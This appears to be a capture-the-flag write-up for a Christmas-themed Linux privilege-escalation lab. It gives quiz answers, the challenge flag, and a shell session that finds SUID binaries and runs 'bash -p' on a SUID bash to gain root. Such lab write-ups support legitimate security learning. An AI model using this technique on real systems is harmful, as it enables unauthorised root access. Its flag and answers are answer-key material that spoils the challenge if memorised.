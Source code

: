 This is it - the moment that Elf McEager has been waiting for. It's the final exam of the Nmap course that he enlisted on during "Day 8 - What's Under the Christmas Tree?". It looks like all that hard work of hitting the books has paid off..."Success!" Elf McEager screams..."the exploit worked! Yippeee!"

Elf McEager has successfully managed to create a reverse shell from the target back to his computer. Little did he know, the real exam begins now...The last stage of the exam requires Elf McEager to escalate his privileges! He spent so much time studying Nmap cheatsheets that he's now drawing a blank...Can you help Elf McEager?

To be the good guy, sometimes you gotta be the bad guy first...
- What type of privilege escalation involves using a user account to execute commands as an administrator?
```
vertical
```
- What is the name of the file that contains a list of users who are a part of the sudo group
```
sudoers
```
- What are the contents of the file located at /root/flag.txt?
```
thm{2fb10afe933296592}
```
```
bash-4.4$ find / -type f -perm -u=s 2>/dev/null                                                                                                                                       
/bin/umount                                                                                                                                                                            
/bin/mount                                                                                                                                                                             
/bin/su                                                                                                                                                                                
/bin/fusermount                                                                                                                                                                        
/bin/bash                                                                                                                                                                              
/bin/ping          
bash -p

bash-4.4# cd /root
bash-4.4# ls
flag.txt
bash-4.4# cat flag.txt 
thm{2fb10afe933296592}
bash-4.4# whoami
root
bash-4.4# id
uid=1000(cmnatic) gid=1000(cmnatic) euid=0(root) groups=1000(cmnatic),24(cdrom),30(dip),46(plugdev)
bash-4.4# 

```
